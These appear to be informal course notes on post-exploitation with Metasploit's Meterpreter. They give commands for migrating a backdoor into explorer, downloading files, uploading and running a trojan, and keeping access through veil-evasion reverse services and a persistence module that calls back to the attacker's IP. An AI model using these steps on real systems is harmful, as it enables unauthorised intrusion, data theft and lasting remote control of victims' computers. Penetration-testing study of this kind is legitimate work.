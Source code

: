 A very good idea once we hack into the system is to migrate our backdoor to a process that is safer. For example, 'explorer' is the graphical interface of windows, so it is always running when the system is used (If we can gained access through an executable, then it eliminates once the executable is closed). So we migrate by

           migrate to_process-id
           
## File System Commands
We can navigate to desired documentary and download files

           download filename
           
If we want to install a trojan

           upload filename
           execute -f filename
           
We can make our current meterpreter session into an os shell by
 
           shell
Now, we can run windows commands
           
To know more about file system commands, type 'help' and navigate to 'file system commands'.

## ==Maintaining Access==
When the target restarts the sytem, we loose access, so wee need methods to maintain access
### Basic methods
Using a ==veil-evasion==
* Rev_http_service
* Rev_tcp_service
* Use it instead of a normal backdoor
* Or ==upload== and ==execute== from meterpreter
* Does not always work

Using ==persistence== module in meterpreter
* To run it in meterpreter 

         run persistence -h
         run persistence -U -i 20 -p 80 -r our_ip
* In the above command, we use ==U== bcz we have user privileges, ==i= for the interval in seconds b/n each connection attempt, ==p== for the port on which the system running metasploit is listening.
*  Detectable by antivirus programs

### Using veil-evasion and persistence
* We are going to use our normal backdoor we created
* We will ==inject it as a service==, so that it runs everytime the target person runs their computer and tries to connect back to us every certain amount of time.
* To do this, first background the current session
  
          background
* Use the module

          use exploit/windows/local/persistence
          show options
          